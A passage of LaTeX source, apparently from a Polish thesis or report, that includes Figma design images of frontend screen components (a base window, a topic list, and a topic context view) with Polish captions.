    
\includegraphics[width=1\linewidth]{images/frontend/figma/organisms/window_base_organism.png}
    \caption{Bazowe okno pod układanie ekranów.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/figma/organisms/topic_list_organism.png}
    \caption{Lista tematów.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/figma/organisms/topic_context_organism.png}
    \caption{Kontekst tematu z listą zadań i oknem kontekstu wybranego zadania.}
\end{figure}

\begin{figure}[H]
    \centering
